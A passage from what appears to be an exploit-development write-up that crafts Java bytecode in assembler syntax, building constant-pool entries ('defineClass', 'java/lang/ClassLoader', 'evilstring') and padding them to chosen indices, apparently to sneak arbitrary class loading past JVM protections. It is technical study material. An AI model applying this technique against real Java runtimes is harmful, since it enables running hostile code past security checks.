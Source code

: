 ```
        ireturn
    .end code
.end method


```

Next up, we have to fill in those placeholders and construct the _real_ value for evilstring. Additionally, we have to satisfy the following constraints while doing so:

```
[super_cls] = **05
[sneakyLoad_utf] = 03**


```

### More constants

Now we can add in some more strings that we need, to help fill the placeholders:

```
        ldc_w "(Ljava/lang/String;[BLjava/security/ProtectionDomain;)Ljava/lang/Class;"
        ldc_w "Code"
        
        ldc_w "defineClass"
        ldc_w "(Ljava/lang/String;[BIILjava/security/ProtectionDomain;)Ljava/lang/Class;"
        ldc_w "<init>"
        ldc_w "()V"
        ldc_w "java/lang/ClassLoader"

        ldc_w "evilstring"


```

However, unlike the first two strings we added (`"Code"` and `"(Ljava/lang/String;[BLjava/security/ProtectionDomain;)Ljava/lang/Class;"`), we need the new constants to appear at index 257 or higher for reasons that will become clear later. Therefore, we need to first insert a bunch of dummy constants we aren’t using in order to push `"defineClass"`, etc. up to index 257.

```
        ldc_w "(Ljava/lang/String;[BLjava/security/ProtectionDomain;)Ljava/lang/Class;"
        ldc_w "Code"
        
        ldc_w "s_b"
        ldc_w "s_d"
        ldc_w "s_f"
        ldc_w "s_11"
        ldc_w "s_13"
        ...
        ldc_w "s_fb"
        ldc_w "s_fd"
        ldc_w "s_ff"

        ldc_w "defineClass"
        ldc_w "(Ljava/lang/String;[BIILjava/security/ProtectionDomain;)Ljava/lang/Class;"
        ldc_w "<init>"
        ldc_w "()V"
        ldc_w "java/lang/ClassLoader"

        ldc_w "evilstring"


```
